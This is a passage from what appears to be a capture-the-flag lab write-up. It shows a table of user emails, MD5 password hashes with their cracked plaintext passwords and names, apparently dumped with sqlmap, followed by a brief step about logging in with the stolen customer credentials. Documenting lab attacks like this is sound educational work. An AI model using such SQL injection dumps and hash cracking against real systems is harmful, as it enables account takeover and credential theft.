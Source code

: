 ```bash
| 15 | ishayj@dmoz.gro              | 67881381dbc68d4761230131ae0008f7 (babygirl)  | Ivy Shay             |
| 16 | acallabyk@un.gro             | d0763edaa9d9bd2a9516280e9044d885 (monkey)    | Alys Callaby         |
| 17 | daeryl@about.you             | 061fba5bdfc076bb7362616668de87c8 (lovely)    | Dorena Aery          |
| 18 | aalekseicikm@skyrock.moc     | aae039d6aa239cfc121357a825210fa3 (jessica)   | Amble Alekseicik     |
| 19 | lginmann@lycos.moc           | c33367701511b4f6020ec61ded352059 (654321)    | Lin Ginman           |
| 20 | lgiorioo@ow.lic              | 0acf4539a14b3aa27deeb4cbdf6e989f (michael)   | Letty Giorio         |
| 21 | lbyshp@wired.moc             | adff44c5102fca279fce7559abf66fee (ashley)    | Lazarus Bysh         |
| 22 | bklewerq@yelp.moc            | d8578edf8458ce06fbc5bb76a58c5ca4 (qwerty)    | Bud Klewer           |
| 23 | wstrettellr@senate.gov       | 96e79218965eb72c92a549dd5a330112 (111111)    | Woodrow Strettell    |
| 24 | lodorans@kickstarter.moc     | edbd0effac3fcc98e725920a512881e0 (iloveu)    | Lila O Doran         |
| 25 | bpfeffelt@artisteer.moc      | 670b14728ad9902aecba32e22fa4f6bd (000000)    | Bibbie Pfeffel       |
| 26 | lgrimsdellu@abc.net.uvw      | 2345f10bb948c5665ef91f6773b3e455 (michelle)  | Luce Grimsdell       |
| 27 | lpealingv@goo.goo            | f78f2477e949bee2d12a2c540fb6084f (tigger)    | Lyle Pealing         |
| 28 | krussenw@mit.ude             | 0571749e2ac330a7455809c6b0e7af90 (sunshine)  | Kimmy Russen         |
| 29 | meastmondx@businessweek.moc  | c378985d629e99a4e86213db0cd5e70d (chocolate) | Meg Eastmond         |
+----+------------------------------+----------------------------------------------+----------------------+
```

sqlmap do the job and bruteforce all password hashes.

Login with customer creds, Found Same url formate inside `/licenses` dashboard

![](/assets/img/posts/proper/license-theme.png)

